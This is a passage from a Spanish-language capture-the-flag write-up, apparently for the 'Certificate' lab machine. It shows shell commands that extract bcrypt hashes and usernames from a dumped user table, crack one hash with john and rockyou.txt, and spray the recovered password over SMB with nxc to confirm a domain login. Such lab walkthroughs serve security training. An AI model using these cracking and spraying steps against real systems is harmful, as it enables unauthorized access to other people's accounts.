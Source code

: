 ~~~ bash
echo '1   Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10
teacher 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1' | tr '\t' ';' | cut -d ';' -f6-6 | tee hashes.txt

$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
~~~

Procederemos a ejecutar `john` empleando el diccionario `rockyou.txt` para intentar encontrar alguna contraseña que coincida con alguno de estos hashes

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)
~~~

Generaremos un listado rápido de la gran cantidad de usuarios (`2`, aunque es útil este tip en caso de que sean muchos más), parecido a cómo lo hicimos con los hashes

~~~ bash
echo '1   Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10
teacher 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1' | tr '\t' ';' | cut -d ';' -f5-5 | cut -d '@' -f1-1 | tee users.txt

lorra.aaa
sara.b
~~~

Validaremos las credenciales para ambas cuentas, intentando autenticarnos con una lista de los usuarios que hemos encontrado. La contraseña será válida para la cuenta `sara.b`

~~~ bash
nxc smb DC01.certificate.htb -u users.txt -p 'Blink182' 
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [-] certificate.htb\lorra.aaa:Blink182 STATUS_LOGON_FAILURE 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:Blink182
~~~

La cuenta `sara.b` parece ser que forma parte del grupo `Remote Management Users`, esto debido al mensaje que vemos al autenticarnos en `winrm`

